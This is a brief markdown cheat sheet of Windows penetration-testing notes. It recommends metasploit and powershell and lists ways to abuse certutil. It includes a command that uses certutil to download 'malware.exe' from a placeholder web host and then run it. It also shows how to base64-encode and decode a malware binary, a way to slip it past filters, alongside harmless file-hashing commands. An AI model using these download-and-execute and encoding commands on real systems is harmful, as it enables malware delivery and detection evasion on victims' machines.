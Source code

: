 # Windows Pentest Notes
## Useful Tools
`metasploit` of course

and `powershell` is always your best friend

## Certutil abuse
### Download files & execute
`certutil.exe -urlcache -split -f http://www.example.com/malware.exe`

then `malware.exe`
### Hash Files
`certutil.exe -hashfile file`(SHA-1)

`certutil.exe -hashfile file SHA256/MD5` (for SHA-256 or MD5 Hash)
### Files to baes64 code 
encode:

`certutil.exe -encode malware.exe malware.txt`

decode:

`certutil.exe -decode malware.txt malware.exe`
